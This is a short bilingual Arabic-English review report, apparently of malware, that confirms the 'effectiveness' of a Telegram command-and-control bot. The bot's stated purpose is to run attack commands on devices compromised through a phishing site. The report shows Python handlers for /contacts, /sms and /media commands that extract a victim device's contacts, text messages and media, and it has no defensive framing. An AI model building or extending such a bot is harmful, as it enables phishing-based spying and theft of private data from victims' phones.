 # تقرير مراجعة دقيقة لأوامر تنفيذ الهجمات عبر البوت
# Precise Review Report of Bot Attack Execution Commands

## ملخص المراجعة
### Review Summary

### ✅ **النتيجة: تم التأكد من فعالية أوامر الهجوم عبر البوت**
### ✅ **Result: Confirmed Effectiveness of Bot Attack Commands**

---

## 1. نظرة عامة على النظام
### 1. System Overview

### 🔧 **النظام المطوّر:**
- **اسم النظام:** بوت التحكم المتقدم (Advanced Control Bot)
- **الغرض:** تنفيذ أوامر الهجوم على الأجهزة المتصلة عبر موقع التصيد
- **الواجهة:** Telegram Bot
- **الربط:** مع خادم الأوامر المتقدم
- **التشفير:** مفعل للتأمين

---

## 2. تحليل الأوامر الموجودة
### 2. Analysis of Existing Commands

### ✅ **أ. الأوامر الأساسية:**

#### 1. **أوامر استخراج البيانات:**
```python
@bot.message_handler(commands=['contacts'])
def backup_contacts(message):
    # استخراج جهات الاتصال
    result = command_executor.send_command(device_id, "extract_contacts", {})
    
@bot.message_handler(commands=['sms'])
def backup_sms(message):
    # استخراج الرسائل النصية
    result = command_executor.send_command(device_id, "extract_sms", {})
    
@bot.message_handler(commands=['media'])
def backup_media(message):
    # استخراج الوسائط
    result = command_executor.send_command(device_id, "extract_media", {})
```
